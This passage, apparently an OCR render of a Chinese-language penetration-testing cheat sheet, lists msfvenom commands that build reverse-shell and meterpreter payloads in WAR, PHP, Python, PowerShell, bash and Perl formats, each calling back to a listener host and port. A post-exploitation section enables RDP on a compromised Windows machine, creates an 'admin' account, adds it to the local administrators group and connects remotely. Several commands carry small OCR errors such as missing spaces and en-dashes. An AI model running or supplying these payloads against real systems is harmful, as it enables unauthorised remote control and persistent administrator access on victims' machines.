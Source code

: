 ```sh
# war
msfvenom-p java/jsp_shell_reverse_tcp LHOST=192.168.2.2 LPORT=4444 -f war > shell.war
```

<br/>

##### 0x03 原生未加密处理的payload

```sh
msfvenom -p php/meterpreter_reverse_tcp lhost=192.168.40.132 lport=5555 -f raw -o shell.php
```

<br/>

##### 0x04 脚本payload

```sh
# python
msfvenom-p python/meterpreter/reverse_tcp LHOST=192.168.2.2 LPORT=4444 -f raw > shell.py
```

```sh
# powershell
msfvenom -p windows/x64/meterpreter_reverse_http LHOST=192.168.2.2 LPORT=4444 -f psh > s hell.ps1
```

```sh
# bash
msfvenom -p cmd/unix/reverse_bash LHOST=192.168.2.2 LPORT=4444 -f raw > shell.sh
```

```sh
# perl
msfvenom-p cmd/unix/reverse_perl LHOST=192.168.2.2 LPORT=4444 -f raw > shell.pl
```

<br/>

<br/>

#### 后渗透模块(post)

***

##### 0x01 打开微软远程桌面

```sh
# post/windows/manage/enable_rdp
# 在meterpreter回话中运行
run post/windows/manage/enable_rdp

#可以利用该命令，在目标机器上添加用户 
run getgui –u admin –p admin 
net localgroup administrators admin /add

#远程连接桌面 
rdesktop –u username –p password ip
```
